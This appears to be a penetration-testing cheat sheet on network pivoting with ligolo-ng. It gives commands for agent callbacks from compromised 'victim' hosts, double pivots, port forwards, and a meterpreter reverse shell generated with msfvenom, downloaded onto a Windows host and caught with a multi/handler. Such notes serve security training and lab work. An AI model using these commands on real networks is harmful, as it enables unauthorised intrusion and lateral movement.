 ```yaml
---
title: Ligolo-ng
parent: Pivot
layout: default
nav_order: 1
---
```


When using nmap with ligolo-ng should specify `--unprivileged` to avoid false positives.

1. Install if haven't.\
`sudo apt install ligolo-ng`

1. Download the proxy agent files here(download old one if new not working):\
`https://github.com/nicocha30/ligolo-ng/releases`

1. Add ligolo TUN interface:\
`sudo ip tuntap add user <Your Username> mode tun ligolo`

1. Enable the interface:\
`sudo ip link set ligolo up`

1. Start our proxy server in attacker machine:\
`ligolo-proxy -selfcert -laddr 0.0.0.0:21`

1. In our victim:\
`./agent -connect <Attack IP>:21 -ignore-cert -retry`

1. Once it is connected, go back to attacker machine should see agent connected. Run the `session` command and select the victim machine.

2. Run the following (in the ligolo interface!). This will show you what network the victim can access to:\
`ifconfig`

1. Based on the results above, use the following command (in linux not ligolo interface!). In this example the victim internal network ipv4 is 192.168.56.128/24:\
`sudo ip route add 192.168.56.0/24 dev ligolo`

1.  In ligolo interface with the selected agent, run `start`

If <b>double pivot</b> is required (you have proxy on the first victim already, but need proxy on a second victim also through first victim)
1. Add a second ligolo TUN interface:\
`sudo ip tuntap add user <Your Username> mode tun ligolo2`

2. Enable the interface:\
`sudo ip link set ligolo2 up`

3. In your ligolo interface with the first victim selected, redirect the port 21 of first victim to our kali port 21:\
`listener_add --addr 0.0.0.0:21 --to 127.0.0.1:21 --tcp`

4. To confirm it has been added:\
`listener_list`

5. Now run the agent on the second victim (assuming it is windows):\
`./agent.exe -connect <IP of First Pivot Point>:21 -ignore-cert -retry`

6. Run the following for second victim (in the ligolo interface!). This will show you what network the second victim can access to:\
`ifconfig`

7. Based on the results above, use the following command (in linux not ligolo interface!). In this example the second victim internal network ipv4 is 10.1.30.132/24:\
`sudo ip route add 10.1.30.0/24 dev ligolo2`

8. In ligolo interface with the selected agent, run\
`tunnel_start --tun ligolo2`

Setting up <b>reverse shell</b> if the second victim cannot reach attacker machine directly
1. Generate a reverse shell (but the IP must be for the <b>first victim!</b>):\
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.128 LPORT=5656 EXITFUNC=thread -f exe -o shell.exe`

2. To ensure you can download files on second victim from Kali, run this under ligolo interface for first victim. This forwards port 2222 of first victim to kali port 8888:\
`listener_add --addr 0.0.0.0:2222 --to 127.0.0.1:8888 --tcp`

3. Then we can set up python download server on 8888:\
`python3 -m http.server 8888`

4. Download the file on second victim (IP here is the first victim):\
`Invoke-WebRequest -Uri "http://192.168.56.128:2222/shell.exe" -OutFile shell.exe`

5. On the ligolo interface for first victim run the following which will forward port 5656 on first victim to port 4444 on kali:\
`listener_add --addr 0.0.0.0:5656 --to 127.0.0.1:4444 --tcp`

6. Wait for incoming connecting after running this:
```
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 4444
exploit
```

If you want to access <b>internal services available only to that localhost of first victim</b>, run the following on kali interface:\
`sudo ip route add 240.0.0.1/32 dev ligolo`

You can then use 240.0.0.1 as if you are accessing 127.0.0.1 on the first victim. For example this will be like running nmap 127.0.0.1 on first victim:\
`nmap 240.0.0.1`
